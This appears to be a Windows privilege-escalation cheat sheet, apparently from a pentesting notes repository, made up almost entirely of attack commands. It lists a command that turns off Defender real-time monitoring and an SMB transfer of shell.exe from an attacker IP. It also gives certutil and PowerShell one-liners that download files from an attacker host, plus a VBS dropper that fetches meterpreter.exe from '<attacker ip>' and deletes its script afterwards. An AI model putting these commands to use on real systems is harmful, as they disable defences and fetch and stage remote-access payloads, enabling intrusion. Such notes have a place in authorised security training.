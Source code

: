 # Enum    
    whoami /priv

## Powershell
    Get-ExecutionPolicy    
    Set-ExecutionPolicy Unrestricted   
    Set-MpPreference -DisableRealtimeMonitoring $true  

## Kernel exploits   
    systeminfo | findstr /B /C:"OS Name" /C:"OS Version"   


# File Transfer  
    sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .   
    copy \\10.6.85.85\kali\shell.exe C:\PrivEsc\shell.exe   

    certutil.exe -urlcache -split -f "http://$IP/file.bat" file.bat   
  
## Powershell
    powershell -c wget "http://$IP/file.exe" -outfile "file.exe"   
    powershell "(New-Object System.Net.WebClient).DownloadFile('$IP','$PORT')"   
    powershell Invoke-WebRequest -Uri http://$IP:$PORT/PowerUp.ps1 -OutFile C:\Users\out    

## VBS 
    echo Set o=CreateObject^("MSXML2.XMLHTTP"^):Set a=CreateObject^("ADODB.Stream"^):Set f=Createobject^("Scripting.FileSystemObject"^):o.open "GET", "http://<attacker ip>/meterpreter.exe", 0:o.send^(^):If o.Status=200 Then > "C:\temp\download.vbs" &echo a.Open:a.Type=1:a.Write o.ResponseBody:a.Position=0:If f.Fileexists^("C:\temp\meterpreter.exe"^) Then f.DeleteFile "C:\temp\meterpreter.exe" >> "C:\temp\download.vbs" &echo a.SaveToFile "C:\temp\meterpreter.exe" >>"C:\temp\download.vbs" &echo End if >>"C:\temp\download.vbs" &cscript //B "C:\temp\download.vbs" &del /F /Q "C:\temp\download.vbs"

 
  
# Resources
## Cheat Sheets
  https://burmat.gitbook.io/security/hacking/one-liners-and-dirty-scripts
  
  
